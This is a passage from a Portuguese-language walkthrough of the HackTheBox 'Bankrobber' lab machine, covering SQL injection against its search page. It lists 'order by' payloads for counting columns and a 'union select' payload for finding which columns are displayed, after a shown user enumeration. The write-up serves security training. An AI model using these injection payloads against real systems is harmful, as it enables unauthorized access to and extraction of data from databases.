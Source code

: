 ![Search User SQLi user enumeration](Assets/HTB-Windows-Insane-Bankrobber/search_user_enumeration_users.png)

Ok. Ai estão todos os usuários. E ainda temos sorte, o php/html está feito para criar linhas para incluir todos os resultado. Não é necessário concatenar nem coisa parecida.

Poderia fazer um script em python para simular uma shell, mas como já fiz na máquina **_FALAFEL_**, vou direto ao assunto. Além disso, para esta máquina, já há alguns scripts e vai haver mais um ainda.

O Próximo passo é enumerar a base de dados:

Perceber quantas colunas são

```sql
3' order by 100-- -  # Ther is a problem with your SQL syntax
3' order by 10-- -   # Ther is a problem with your SQL syntax
3' order by 4-- -    # Ther is a problem with your SQL syntax
3' order by 3-- -    # 3 javali
```

![SQLi order by 3](Assets/HTB-Windows-Insane-Bankrobber/sqli_order_by_3.png)

Perceber quais as colunas cujo resultado aparecem na tela:

```sql
3' union select 111,222,333-- -
```

